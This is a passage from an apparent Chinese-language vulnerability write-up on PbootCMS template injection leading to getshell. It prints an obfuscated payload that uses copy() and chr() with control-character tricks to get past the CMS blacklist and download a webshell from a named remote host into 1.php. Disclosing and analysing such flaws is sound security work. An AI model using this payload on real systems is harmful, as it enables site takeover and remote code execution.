 访问带有分页类且又能输出公司地址的地方

![](images/15892018853876.png)


Getshell成功！！！

补充

一开始在研究这个漏洞的时候，就觉得有点麻烦，又要上传图片马，又要构造图片马的路径，不能一个payload直接打，十分麻烦。

于是就跑去问了问P师傅**（P牛，永远滴神！）**

P师傅理解了我的需求后，直接甩了个payload给我

![](images/15892018965337.png)


看到后我才想起，以前就看过P师傅的一篇文章里面的一个trick：在一个函数的括号前面加入一些控制字符，PHP一样能识别改函数并执行。利用这个trick就可以执行任意函数了。

于是根据P师傅给的思路再结合程序本身的一些其他的黑名单限制，很快我就构造出了一个通用的Payload


```bash
{pboot%3aif(copy%01(chr%01(104).chr%01(116).chr%01(116).(马赛克),chr%01(49).chr%01(46).chr%01(112).chr%01(104).chr%01(112)))}asdasdasd{/pboot%3aif}
```

利用一个copy()函数到远程服务器上下载一个webshell放在本地，这里的webshell地址通过chr()函数一个个还原出shell地址一个个拼接。

向模板注入该payload：

![](images/15892019166688.jpg)


访问前台触发点：

![](images/15892019243969.png)


则会去`http://mock.x.dnshia.cn/shell`下载webshell，并保存到1.php

![](images/15892019369059.png)


### 参考链接

https://xz.aliyun.com/t/7628
